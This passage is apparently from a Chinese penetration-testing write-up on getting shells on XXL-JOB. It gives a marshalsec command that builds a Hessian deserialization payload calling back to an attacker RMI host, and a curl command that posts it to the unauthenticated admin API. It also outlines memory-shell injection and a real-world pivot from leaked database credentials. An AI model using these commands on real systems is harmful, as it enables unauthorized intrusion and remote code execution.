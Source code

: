 # 二、api 未授权访问

在 xxl-job<=2.0.2 的时候 api 存在未授权访问，有两种方式可以 getshell。

## 1、利用 jndi 注入去打内存马

这个已经被人讲过好多次了，但是利用的前提就是需要出网，使用 marshalsec 去生成 payload

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://x.x.x.x:1099/aaa > test.ser
```

再利用 curl 去发包即可，注意尽量使用 linux 或者 Windows 的 cmd 去发包，实测 Windows 下 powershell 发包可能会出现一些问题。

```bash
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://127.0.0.1:8080/xxl-job-admin/api
```

## 2、去利用 XSLT 去注入内存马

这个应该是最好使的方案，Nookipop 已经讲过了，在不出网时可以利用 XSLT 去打入内存马，进行命令执行，打入 suo5 内存马进行正向代理内网穿透。  
详见 [记一次曲折的 XXL-JOB API Hessian 反序列化到 Getshell](https://forum.butian.net/share/2592)

# 三、执行命令注入内存马

这种同样是不出网时才考虑的操作。注入的是 agent 内存马，这个利用的条件其实也有点苛刻，一般来说 xxl-job 的 executor 常常跑在 docker 环境下或者分布式部署。而要想注入 agent 类型的内存马就需要 admin 端和 executor 跑在一台主机下。方法就是使用 echo 方法或者 java 的写入文件的方法将 agent 内存马写到目标主机上，然后在进行加载。具体利用方法可参照。[XXL-JOB 深度利用](https://mp.weixin.qq.com/s/8KZzBEX36noXBGFlWa1UQQ)

# 四、奇技淫巧 - 从数据库 getShell

这也是实战中遇到的一个案例，目标单位存在一个 nacos 的身份伪造漏洞，获取到了数据库的配置文件，成功的连上了数据库，当然我们可以去尝试 udf 提权或者猜目录去写马，但我发现数据库中存在 xxl\_job 的数据库，这时候其实就有更多的方法去 getshell。  
[![](assets/1709169576-889263bb6a62176cd42724aa501e905b.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872105079-8fc72a7b-ad61-4bdb-a44a-1d2b5a31afca.png#averageHue=%23f8f4f3&clientId=uf7a707aa-6606-4&from=paste&height=115&id=ud4f2bce6&originHeight=229&originWidth=1239&originalType=binary&ratio=2&rotation=0&showTitle=false&size=27809&status=done&style=none&taskId=u38cee782-6cbb-4e60-84a2-8af7f4c9d12&title=&width=619.5)  
[![](assets/1709169576-1a45cc9e1bb61d5a3082ca923201ae04.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872177278-ee651421-c3b9-4c8b-891d-e8f5cac461fa.png#averageHue=%23f8f7f7&clientId=uf7a707aa-6606-4&from=paste&height=245&id=ifgia&originHeight=489&originWidth=2065&originalType=binary&ratio=2&rotation=0&showTitle=false&size=66076&status=done&style=none&taskId=uae34a256-5921-462a-b15a-f6851ccff86&title=&width=1032.5)  
这时候通常有两种利用方式:1、获取到 xxl-job 的密码，登入 xxl-job 去写计划任务进行命令执行 getshell。2、直接通过往数据库里写内容进行 getshell。
